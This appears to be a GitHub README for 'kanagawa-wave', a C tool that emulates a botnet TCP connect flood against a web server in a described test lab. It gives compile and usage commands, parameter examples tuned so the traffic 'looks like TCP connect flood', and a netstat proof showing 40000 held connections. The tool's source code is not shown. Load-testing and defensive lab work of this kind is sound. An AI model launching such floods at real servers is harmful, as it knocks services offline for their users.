

#### Kanagawa-wave

TCP connect flood botnet attack emulation

#### Test lab

To emulate botnet attack from many ips, attcker's eth0 aliased with ips from 172.26.0.0/16 subnet (BLOCK I on pic. 1). Static route to 172.26.0.0/16 to attackers PC on router (BLOCK II on pic. 1). Router is in between attacker and web server (BLOCK III on pic. 1)



_Pic. 1 test lab scheme_

#### Installation

On _attacker_ machine run: 
```
botnet@attacker: gcc -o kanagawa-wave kanagawa-wave.c -lpthread
botnet@attacker: ./kanagawa-wave -h
./kanagawa-wave [ -i epair0b -n 1 -c 1000 -t 10 -d 10.134.23.123 -p 443]
        -i interface name
        -n rotate this amount of source ips aliased to "-i interface"
        -c connections to hold
        -t threads
        -d destination ip
        -p port
        -r reconnect broken sockets [experimental]
```

#### Examples

##### Bad usage
```
./kanagawa-wave -i eth0 -n 40000 -c 40000 -t 10 -d 172.25.3.1 -p 443
                           ^        ^
Use 40k different src IPs to hold 40k connections. 1 TCPconn per IP is not TCP connect flood
```
##### Good usage
```
./kanagawa-wave -i eth0 -n 40000 -c 10 -t 10 -d 172.25.3.1 -p 443
                           ^        ^
Use 10 different src IPs to hold 40k connections. 4000 TCPconn per IP looks like TCP connect flood
```
##### POC

After launching ```kanagawa-wave``` check amount of TCP connections
on ```web server```(BLOCK III pic.1)
```
netstat -p tcp -ss | grep -i established
40000 connections in ESTABLISHED state
```

